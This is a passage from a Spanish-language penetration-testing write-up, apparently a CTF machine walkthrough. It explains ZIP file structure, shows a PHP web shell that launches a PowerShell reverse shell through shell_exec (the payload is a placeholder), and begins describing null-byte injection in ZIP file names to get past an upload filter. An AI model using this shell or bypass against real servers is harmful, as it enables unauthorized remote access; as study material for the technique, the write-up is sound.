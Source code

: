 ## Understanding ZIP File Structure

Para entender cómo ganamos acceso mediante un comprimido `.zip` malicioso, necesitaremos comprensión acerca de los [componentes de un archivo ZIP](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html). Un archivo comprimido posee la siguiente estructura esencial

- **Entradas de archivo** (`File Entries`): Cada archivo se almacena con metadatos como su nombre, tamaño y fecha de modificación, esta sección de metadatos es conocida como `Local File Header`.

- **Directorio Central** (`Central Directory`): Se encuentra al final del archivo ZIP, incluye una lista de archivos junto con su ubicación dentro del ZIP. El lector ZIP consulta el directorio central para localizar y mostrar los archivos.

- **EOCD** (Fin del Directorio Central o `End of Central Directory`): Este registro se encuentra al final del archivo ZIP e indica dónde comienza el directorio central, facilita a los lectores ZIP encontrar los archivos 

![image-center](/assets/images/posts/certificate-zip-file.png)
{: .align-center}



Realizando pruebas con diferentes formas de ejecutar una reverse shell en PHP, la función que ha funcionado para mi caso ha sido utilizar la función `shell_exec()`.

El contenido de `shell.php` es el siguiente, en mi caso generé una reverse shell desde [`revshells.com`](https://www.revshells.com/), utilizando un payload `PowerShell #3 (Base64)`

~~~ php
<?php
shell_exec("powershell -e BASE64_REVERSE_SHELL");
?>
~~~


## 1. File Upload Bypass - Null Byte Injection

La primera técnica que podemos utilizar para evadir el filtro de archivos es inyectando un `Null Byte` dentro de los metadatos del archivo comprimido ZIP que el servidor espera que subamos.

El nombre del archivo se almacena como **parte de los metadatos** dentro de `Local File Header` y el EOCD (`End of the Central Directory`)
